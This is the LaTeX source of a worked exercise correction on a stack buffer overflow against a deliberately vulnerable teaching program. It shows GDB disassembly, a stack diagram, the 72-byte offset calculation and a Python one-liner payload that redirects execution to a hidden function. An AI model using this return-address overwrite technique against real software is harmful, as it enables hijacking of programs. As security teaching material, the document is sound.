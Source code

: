 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{correction}
\textbf{1a)} After compilation and execution:
\begin{lstlisting}[style=GDBStyle]
$ gcc -fno-stack-protector -no-pie -z execstack -g stackx64.c -o stackx64
$ echo "AAAA" | ./stackx64
=== StackX64 - Vulnerable Program ===
[DEBUG] main() is at address:            0x401216
[DEBUG] secret_function() is at address:  0x4011d6
[DEBUG] vulnerable_function() is at:      0x4011f6
...
\end{lstlisting}

\textbf{1b)} Disassembly of \texttt{vulnerable\_function}:
\begin{lstlisting}[style=GDBStyle]
(gdb) disassemble vulnerable_function
   ...
   0x00000000004011fa <+4>:  push   rbp
   0x00000000004011fb <+5>:  mov    rbp,rsp
   0x00000000004011fe <+8>:  sub    rsp,0x40
   ...
\end{lstlisting}
The instruction \texttt{sub rsp, 0x40} reserves \textbf{64 bytes} (0x40 = 64) for local variables, which corresponds to the \texttt{char buffer[64]}.

\textbf{1c)} Stack diagram:
\begin{lstlisting}[style=GDBStyle]
Address          Contents                Description
-----------      -----------------       -------------------
0x7fffffffde58   0x0000000000401247      Return address (to main)
0x7fffffffde50   0x00007fffffffde70      Saved RBP
0x7fffffffde4c   0x0000000000000000      \
0x7fffffffde48   0x0000000000000000       |
...              ...                      | buffer[64]
0x7fffffffde14   0x0000000000000000       |
0x7fffffffde10   0x4141414141414141      /  <-- start of buffer
\end{lstlisting}

\textbf{1d)} Offset = buffer size + saved RBP = 64 + 8 = \textbf{72 bytes}.

Verification with GDB: we send 72 \texttt{A}'s + 8 \texttt{B}'s and verify that the return address contains \texttt{0x4242424242424242}:
\begin{lstlisting}[style=GDBStyle]
(gdb) run < <(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'B'*8)")
(gdb) x/gx $rbp+8
0x7fffffffde58: 0x4242424242424242
\end{lstlisting}

\textbf{1e)} The address of \texttt{secret\_function} is \texttt{0x4011d6}. In little-endian:
\begin{lstlisting}[style=GDBStyle]
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xd6\x11\x40\x00\x00\x00\x00\x00')" | ./stackx64
=== StackX64 - Vulnerable Program ===
...
=============================================
  SECRET FUNCTION REACHED!
  You successfully redirected execution!
=============================================
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
